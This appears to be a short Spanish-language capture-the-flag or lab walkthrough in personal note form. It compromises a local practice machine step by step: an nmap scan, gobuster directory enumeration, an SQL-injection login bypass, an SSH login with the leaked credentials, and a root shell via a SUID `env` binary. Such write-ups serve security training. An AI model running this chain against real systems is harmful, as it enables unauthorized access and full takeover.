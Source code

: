 1. Realizamos un [[00. Apuntes/01. Herramientas/NMAP|NMAP]] hacia la IP objetivo:
`nmap -p- -sS -sCV --min-rate 5000 -n -vvv -Pn "IP" -oN "NombreFichero"`
![[Pasted image 20241118182125.png]]

2. Navegamos a la web del puerto 80 (HTTP):
![[Pasted image 20241118182559.png]]

3. Viendo que es una web realizamos un scaneo de directorios con [[00. Apuntes/01. Herramientas/GOBUSTER|GOBUSTER]]:
`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,sh,py`
![[Pasted image 20241118182945.png]]

4. Revisamos el `index.php` vamos a probar una inyección SQL estándar:
`or 1=1-- -`
![[Pasted image 20241118183422.png]]

Conseguimos obtener los datos de un usuario y su contraseña:
![[Pasted image 20241118183515.png]]

5. Accedemos vía SSH:
`ssh dylan@172.17.0.2`
![[Pasted image 20241118183806.png]]

6. Escalada de privilegios:
- Buscamos binarios con permisos SUID
`find / -perm -4000 -user root 2>/dev/null`
![[Pasted image 20241118184103.png]]

7. Vemos que se encuentra el binario `/usr/bin/env` ejecutamos `/usr/bin/env /bin/bash -p` para obtener una bash como root:
![[Pasted image 20241118184324.png]]